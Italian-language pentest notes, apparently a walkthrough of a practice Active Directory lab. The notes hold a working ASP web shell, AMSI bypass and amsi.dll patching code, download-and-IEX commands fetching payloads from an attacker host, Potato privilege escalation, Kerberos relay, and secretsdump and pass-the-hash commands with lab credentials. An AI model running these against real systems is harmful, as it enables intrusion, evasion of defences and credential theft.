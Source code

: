 ### **ENUM MSSQL**
Vediamo quali server hanno MSSQL attivo
```bash
nmap -p 1433 -sV -sC 192.168.56.10-23
```
![[Pasted image 20230830110346.png]]
![[Pasted image 20230830110835.png]]
Controlliamo se ci sono utenti con SPN sui server MSSQL trovati
```bash
impacket-GetUserSPNs north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830104754.png]]
```bash
GetUserSPNs.py -target-domain essos.local north.sevenkingdoms.local/brandon.stark:iseedeadpeople
```
![[Pasted image 20230830110943.png]]
è possibile anche usare crackmapexec per enumerare
```bash
crackmapexec mssql 192.168.56.22-23
```
![[Pasted image 20230830151845.png]]

### **MSSQL PWN**
Non funziona
### **IIS Rev Shell**
All'indirizzo http://192.168.56.22/Default.aspx c'è un web server IIS che consente un upload.
Carichiamo quindi una web shell in .asp.
```aspx
<%
Function getResult(theParam)
    Dim objSh, objResult
    Set objSh = CreateObject("WScript.Shell")
    Set objResult = objSh.exec(theParam)
    getResult = objResult.StdOut.ReadAll
end Function
%>
<HTML>
    <BODY>
        Enter command:
            <FORM action="" method="POST">
                <input type="text" name="param" size=45 value="<%= myValue %>">
                <input type="submit" value="Run">
            </FORM>
            <p>
        Result :
        <% 
        myValue = request("param")
        thisDir = getResult("cmd /c" & myValue)
        Response.Write(thisDir)
        %>
        </p>
        <br>
    </BODY>
</HTML>
```
![[Pasted image 20230906101505.png]]
Ora abbiamo ottenuto una reverse shell
![[Pasted image 20230906104623.png]]

### **IIS Priv Esc**
*AMSI Bypass*
https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell
[amsi.fail](https://amsi.fail/)
Io ho usato una versione modificata di quelli trovabili in questi due link
```PowerShell
$x=[Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils');$y=$x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static');$z=$y.GetValue($null);[Runtime.InteropServices.Marshal]::WriteInt32($z,0x41424344)
```
Di seguito uno script per disabilitare totalmente AMSI a livello .NET
```PowerShell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
Apriamo un server http e lanciamolo sulla macchina windows
```PowerShell
(new-object system.net.webclient).downloadstring('http://192.168.56.6:8080/amsi_rmouse.txt')|IEX
```
![[Pasted image 20230906110016.png]]
==ORA NON TOCCARE PIù IL DISCO ALTRIMENTI MANDI TUTTO A DONNINE==
Per runnare gli script runnali direttamente in memoria quando li scarichi
*WinPeas senza toccare il disco*
Per approfondimento
[Running a .NET Assembly in Memory with Meterpreter - (praetorian.com)](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter/)

Prendi WinPeas e lancialo in memoria
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe
```
```powershell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.6:8080/winPEASany_ofs.exe');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[winPEAS.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
![[Pasted image 20230906111136.png]]
*SeImpersonatePrivilege to Authority\system*
Qui si possono usare svariate tecniche "Potato". Per approfondimenti
[https://jlajara.gitlab.io/Potatoes_Windows_Privesc](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

Useremo ora [SeeetPotato](https://github.com/CCob/SweetPotato)
Che compileremo con visual studio e caricheremo sulla vittima
Caricheremo inoltre un file runme.bat che verrà eseguito da SweerPotato per ottenere una RevShell come amministratore
```PowerShell
(New-Object System.Net.WebClient).DownloadFile('http://192.168.56.1:8080/runme.bat','c:\temp\runme.bat')
```
```PowerShell
$data=(New-Object System.Net.WebClient).DownloadData('http://192.168.56.1:8080/SweetPotato.exe'); 
```
```PowerShell
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
```
```PowerShell
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter [Console]::SetOut($sWriter); 
```
```PowerShell
[SweetPotato.Program]::Main(@('-p=C:\temp\runme.bat'));[Console]::SetOut($out);$sWriter.ToString()
```
![[Pasted image 20230906122310.png]]
### **KRLBRELAY UP**
https://github.com/tyranid/oleviewdotnet/releases/download/v1.11/Release.7z
[cube0x0/KrbRelay: Framework for Kerberos relaying (github.com)](https://github.com/cube0x0/KrbRelay)
Per utilizzare questo metodo LDAP non deve essere enforced, verificabile con CrackMapExec
```bash
crackmapexec ldap 192.168.56.10-12 -u jon.snow -p iknownothing -d north.sevenkingdoms.local -M ldap-signing
```
![[Pasted image 20230906123355.png]]
Quindi aggiungiamo un nuovo computer al domain
```bash
impacket-addcomputer -computer-name 'krbrelay$' -computer-pass 'ComputerPassword' -dc-host winterfell.north.sevenkingdoms.local -domain-netbios NORTH 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![[Pasted image 20230906123509.png]]

Ora prendiamo il SID del nuovo Computer
```PowerShell
$o = ([ADSI]"LDAP://CN=krbrelay,CN=Computers,DC=north,DC=sevenkingdoms,DC=local").objectSID
```
```PowerShell
(New-Object System.Security.Principal.SecurityIdentifier($o.value, 0)).Value
```
![[Pasted image 20230906125241.png]]
Ora carichiamo CheckPort.exe sulla macchine ed eseguiamolo
```Powershell
.\CheckPort.exe
```
![[Pasted image 20230906142820.png]]
Usiamo il modulo di OleViewDotNet per trovare il clsid
Usa la guida presente sul github di KrbRelay (Sono andato a tentativi, nel mio caso ho usato altri nella lista forniti dal github)
Lanciamo KrbRelay.exe
```powershell
.\KrbRelay.exe -spn ldap/winterfell.north.sevenkingdoms.local -clsid 9acf41ed-d457-4cc1-941b-ab02c26e4686 -rbcd S-1-5-21-585350295-1285882793-2068218167-5103 -port 443
```
![[Pasted image 20230906150422.png]]
==Continua a dare errore, potrebbe essere colpa di azure, da riprovare con il lab a casa==
Ora usiamo Impacket per ottenere un TGT e poi un ST per l'account da amministratore
```bash
impacket-getTGT -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$':'ComputerPassword'
export KRB5CCNAME=./krbrelay\$.ccache   
```
```bash
impacket-getST -impersonate 'administrator' -spn 'CIFS/castelblack.north.sevenkingdoms.local' -k -no-pass -dc-ip 'winterfell.north.sevenkingdoms.local' 'north.sevenkingdoms.local'/'krbrelay$'
```

### **Lateral Movement**
Prima di saltare da una macchina all'altra è essenziale ottenere tutti i "Secrets" della macchina pwnata.
```bash
impacket-secretsdump NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22
```
![[Pasted image 20230906162707.png]]
Per quanto riguarda il SAM i risultato sono mostrati cosi:
```
<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```
Questo valore sulle LM hash significa vuoto ==aad3b435b51404eeaad3b435b51404ee==

*Pass the Hash*
Spesso nel creare i network gli amministratori copiano le macchine, quindi le password vengono riutilizzate.
Per testare ciò si può usare crackmapexec
```bash
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4' --local-auth
```
![[Pasted image 20230906164347.png]]
Quando una macchina viene promossa a DC, la password dell'amministratore locale diventa la password del domain administrator
```bash
crackmapexec smb 192.168.56.10-23 -u Administrator -H 'dbd13e1c4e338284ac4e9874f7de6ef4'
```
![[Pasted image 20230906164901.png]]
*LSA secrets and Cached domain logon information*
dumpiamo HKLM\\SECURITY e HKLM\\SYSTEM
```bash
impacket-smbserver -smb2support share .
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SYSTEM' -o '\\192.168.56.6\share'
impacket-reg NORTH/jeor.mormont:'_L0ngCl@w_'@192.168.56.22 save -keyName 'HKLM\SECURITY' -o '\\192.168.56.6\share'
```
![[Pasted image 20230906165710.png]]
E dumpa i "secrets"
```bash
impacket-secretsdump -security SECURITY.save -system SYSTEM.save LOCAL
```
![[Pasted image 20230906170139.png]]
Ci da molte informazioni come:
- Cached domain credentials (DCC2 hashcat mode 2100) (Quasi impossibili da craccare)
- Machine account : example here : $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:22d57aa0196b9e885130414dc88d1a95
- Service account credentials
- DPAPI key e password per l'autologon
Ora si potrebbero effettuare più mosse, come lanciare bloodhound con il machine account trovato, usare le credenziali del service account o provare a craccare le hash DCC2
*LSASS*
Un altro importante contenitore di "Secrets" è il processo lsass.exe
